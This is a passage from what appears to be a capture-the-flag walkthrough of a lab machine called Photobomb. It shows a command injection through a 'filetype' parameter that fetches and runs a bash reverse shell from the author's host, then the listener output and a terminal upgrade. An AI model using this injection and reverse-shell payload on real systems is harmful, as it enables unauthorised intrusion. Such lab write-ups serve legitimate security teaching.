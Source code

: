 However, on `filetype`, it takes over 6 seconds before returning 500:

![image-20230204154118135](https://0xdfimages.gitlab.io/img/image-20230204154118135.png)

#### Shell

To convert this into a shell, I’ll have it run `curl` to my webserver and get a `bash` script that will run a reverse shell:

```

filetype=png;curl+10.10.14.6/shell.sh|bash

```

I’ll host a simple [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as `shell.sh`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

I’ll run a Python webserver to host it.

When I send that request (using Burp Repeater), there’s a connection at my webserver:

```
10.10.11.182 - - [04/Feb/2023 20:44:39] "GET /shell.sh HTTP/1.1" 200 -

```

And then a connection at my listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.182 42718
bash: cannot set terminal process group (735): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 

```

I’ll do a [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q) with the `script` / `stty` trick:

```

wizard@photobomb:~/photobomb$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
wizard@photobomb:~/photobomb$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
wizard@photobomb:~/photobomb$

```
